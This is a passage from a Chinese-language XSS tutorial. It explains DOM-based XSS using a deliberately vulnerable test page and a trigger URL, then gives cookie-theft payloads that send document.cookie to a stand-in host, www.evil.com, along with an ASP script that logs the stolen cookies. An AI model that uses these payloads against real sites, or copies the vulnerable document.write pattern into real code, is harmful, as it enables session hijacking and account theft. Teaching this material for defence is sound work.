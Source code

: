 传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM-Based XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。客户端 JavaScript 可以访问浏览器的 DOM 文本对象模型，因此能够决定用于加载当前页面的 URL。换句话说，客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于服务器端的数据，而从客户端获得 DOM 中的数据（如从 URL 中提取数据）并在本地执行。另一方面，浏览器用户可以操纵 DOM 中的一些对象，例如 URL、location 等。用户在客户端输入的数据如果包含了恶意 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到基于 DOM 的 XSS 攻击。

HTML 代码：

```html
<html>
  <head>
    <title>DOM-XSS test</title>
  </head>
  <body>
    <script>
      var a=document.URL;
      document.write(a.substring(a.indexOf("a=")+2,a.length));
    </script>
  </body>
</html>
```

将代码保存在 domXSS.html 中，浏览器访问：

```
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```

即可触发 XSS 漏洞。

## XSS 利用方式

### Cookies 窃取

攻击者可以使用以下代码获取客户端的 Cookies 信息：

```html
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

在远程服务器上，有一个接受和记录 Cookies 信息的文件，示例如下：

```asp
<%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("Scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.Writeline(""&msg& "")
  thisfile.close
  set fs=nothing
%>
```
